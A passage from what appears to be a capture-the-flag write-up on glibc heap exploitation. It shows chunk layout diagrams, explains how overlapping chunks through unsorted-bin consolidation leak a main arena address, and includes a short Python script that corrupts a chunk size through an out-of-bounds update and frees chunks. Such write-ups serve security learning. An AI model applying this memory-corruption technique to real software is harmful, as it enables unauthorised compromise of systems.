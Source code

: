 ```
|                Chunk 3                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000501 |    <-- Prevsize / size
|                Chunk 4                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 5                |
|                                       |
-----------------------------------------
                    ↓
      free(chunk 4) to consolidate
              with chunk 2
                    ↓
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 1                |
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000a21 |    <-- Prevsize   / size
| 0x0000155555504ce0 0x0000155555504ce0 |    <-- fw pointer / bk pointer
|                Chunk 2                |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 3                |
|                                       |
-----------------------------------------
| 0x0000000000000520 0x0000000000000500 |    <-- Prevsize / size
|                Chunk 4                |    <-- Prevsize and size changed
|                                       |
-----------------------------------------
| 0x0000000000000000 0x0000000000000021 |    <-- Prevsize / size
|                Chunk 5                |
|                                       |
-----------------------------------------
```

When we have an unsorted bin chunk which overlap chunk 3, we can malloc a 0x500-byte chunk again so the chunk in unsorted bin will be land on chunk 3, which means the address of main arena will be writen to content of chunk 3. But we didn't free chunk 3 so we can read that address easily. Script for this stage is:

```python
alloc(0x18, b'0'*8)     # Chunk 1, index 0
alloc(0x4f8, b'1'*8)    # Chunk 2, index 1
alloc(0x18, b'2'*8)     # Chunk 3, index 2
alloc(0x4f8, b'3'*8)    # Chunk 4, index 3
alloc(0x18, b'4'*8)     # Chunk 5, index 4

payload = flat(
    0, 0,
    0, 0x521
    )
update(0, -1, payload)
delete(1)
delete(3)
```
